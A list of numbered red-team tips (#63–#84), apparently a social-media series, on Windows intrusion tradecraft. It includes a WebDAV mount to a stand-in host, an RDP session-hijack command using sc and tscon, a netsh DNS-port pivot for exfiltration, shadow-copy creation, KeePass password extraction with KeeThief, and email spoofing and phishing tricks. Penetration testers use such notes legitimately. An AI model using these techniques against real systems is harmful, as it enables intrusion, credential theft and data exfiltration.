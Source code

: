 Red tip #63: Finally in CyberArk, click policies and see safes but no account? Go to accounts search and search for empty and safes show up

Red tip #64: Is WebDav allowed through the gateway? Using http mini redirector? Dont exfiltrate or send in files. WebDav is subject to DLP

Red tip #65: WebDav mini http redirector: net use * http://totallylegit.com/share . Then start z:

Red tip #66: Found potential MQ creds? ActiveMQ? Try out https://github.com/fmtn/a , works to query MQ endpoints that dont use self signed crt

Red tip #67: Use vssadmin to list and create volume shadow copies

Red tip #68: Pivoting into a secure zone that has no DNS or web gateway and need exfil? Netsh port forward pivot UDP 53 to DNS 53 then boom

Red tip #69: Have blue hidden the ways including winkey+R? Try shift and right click desktop and open command prompt

Red tip #70: Tracked down that putty session? Popped the box? Query user and check the victims logon time and idle times

Red tip #71: Hijack his Session using sc create sesshijack binpath= "cmd.exe /k tscon /dest:" then use putty session

Red tip #72: Most people understand email sec wrong. SPF does not mean not spoofable. SPF does nothing without DMARC.

Red tip #73: Weak DMARC on victim org domain? Spoof their own emails back into themselves! You even inherit their AD name and photo

Red tip #74: Got access to Microsoft OWA mailbox or O365? You can extract global catalog from contacts use @Burp_Suite and parse JSON object

Red tip #75: Write PHP delivery scripts that can mutate your payloads and add unique trackers per download. This tracks file being executed

Red tip #76: Simulating a criminal threat story with smash and grab agenda? Phish users and hot swap payload mid campaign to test formats

Red tip #77: RCE on a web application for less mature client? nslookup -q=srv _ldap._tcp if its domain joined Invoke-Kerberoast

Red tip #78: @benichmt1 suggests looking for vmdk files across the network. You can use this to potentially access segregated networks

Red tip #79: Obfuscation is never bad, especially when its a button click. @danielhbohannon - https://github.com/danielbohannon

Red tip #80: Need to sweep for uptimes? Use wmic /node:"" OS get LastBootUpTime in a for loop

Red tip #81: Looking for systems running KeePass? Run a for loop on wmic /node:"host" process list brief :) then look at RT #82

Red tip #82: Found KeePass running in memory? Use @harmj0y KeeThief to extract password and dl the KDBX - https://github.com/HarmJ0y/KeeThief

Red tip #83: Struggling to find a working DB client? Live off the land and use your victims in an RDP session.

Red tip #84: Im sure everyone hates Oracle DB but no sweat, you can proxycap sqldeveloper.exe
